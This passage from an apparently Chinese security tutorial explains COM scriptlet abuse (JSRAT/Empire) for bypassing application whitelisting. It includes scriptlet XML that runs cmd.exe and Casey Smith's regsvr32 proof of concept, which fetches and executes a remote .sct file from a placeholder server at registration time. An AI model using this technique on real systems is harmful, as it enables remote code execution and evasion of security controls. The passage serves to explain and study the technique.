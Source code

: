 **(4)调用COM组件"JSRAT"**

即可启动JSRAT

0x04 应用2：绕过应用程序白名单过滤
=====

标准的xml文件的内容如下：

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Empire"
    progid="Empire"
    version="1.00"
    classid="{20001111-0000-0000-0000-0000FEEDACDC}"
    >
</registration>

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

    function Exec()
    {
        var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
    }

]]>
</script>

</scriptlet>

```

在成功注册COM组件后，通过调用exec()才能够执行里面的功能

**那么，如果把Exec()的功能直接加到`<registration>`的标签中呢？****会不会在注册的过程中就可以调用exec()？**

以下是Casey的实现方式：

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Empire"
    progid="Empire"
    version="1.00"
    classid="{20001111-0000-0000-0000-0000FEEDACDC}"
    >
    <!-- regsvr32 /s /i"C:\Bypass\Backdoor.sct" scrobj.dll -->
    <!-- regsvr32 /s /i:http://server/Backdoor.sct scrobj.dll -->
    <!-- That should work over a proxy and SSL/TLS... -->
    <!-- Proof Of Concept - Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[

            var r = new ActiveXObject("WScript.Shell").Run("calc.exe"); 

        ]]>
</script>
</registration>

```